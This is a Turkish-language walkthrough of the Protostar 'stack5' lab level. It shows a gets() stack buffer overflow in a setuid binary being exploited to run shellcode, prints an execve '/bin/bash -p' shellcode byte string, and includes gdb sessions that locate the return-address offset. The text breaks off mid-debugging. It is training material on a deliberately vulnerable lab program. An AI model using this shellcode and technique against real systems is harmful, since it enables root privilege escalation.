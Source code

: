 Bu seviyede bizden stackteki `buffer overflow` zafiyetini sömürerek `shellcode` çalıştırmamızı istiyor. Yapmamız gereken  `return` adresini manipüle ederek kod akışını `stack`e yerleştireceğimiz `shellcode` un başlangıç adresine yönlendireceğiz.

Amaç doğrultusunda istenilen bir `shellcode` kullanabiliriz. Biz `execve` sistem çağrısı aracılığıyla `bash` processini oluşturacağız.(`bash` e vereceğimiz `-p` argümanı ile suid biti atanmış dosyanın `euid` sini `execve` ile açtığımız `bash` processinde de kullanabileceğiz). `stack5` dosyasında suid biti atanmış olduğu için shellde root haklarıyla komut çalıştırabileceğiz.

```bash
$ man syscall
$ man execve
$ bash -c "help set"
```

```c
#include <stdio.h>
#include <unistd.h>

int main(void) {
	char *f = "/bin/bash";
	execve(f, NULL, NULL);
	return 0;
}
```
Shellcode olarak [bunu](http://shell-storm.org/shellcode/files/shellcode-606.php) kullanacağız:

`"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"`

`return` e (EIP) kaç byte sonra yazmaya başladığımızı bulalım:

```bash
$ gdb -q ./stack5
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) disas main
Dump of assembler code for function main:
0x080483c4 <main+0>:	push   ebp
0x080483c5 <main+1>:	mov    ebp,esp
0x080483c7 <main+3>:	and    esp,0xfffffff0
0x080483ca <main+6>:	sub    esp,0x50
0x080483cd <main+9>:	lea    eax,[esp+0x10]
0x080483d1 <main+13>:	mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:	call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:	leave  
0x080483da <main+22>:	ret    
End of assembler dump.
(gdb) b *0x080483d9
Breakpoint 1 at 0x80483d9: file stack5/stack5.c, line 11.
(gdb) run < /tmp/st4
Starting program: /opt/protostar/bin/stack5 < /tmp/st4

Breakpoint 1, main (argc=19018, argv=0xbffff864) at stack5/stack5.c:11
11	stack5/stack5.c: No such file or directory.
	in stack5/stack5.c
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x49494848 in ?? () #
(gdb) run < /tmp/st4
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/stack5 < /tmp/st4

Breakpoint 1, main (argc=19018, argv=0xbffff864) at stack5/stack5.c:11
11	in stack5/stack5.c
```
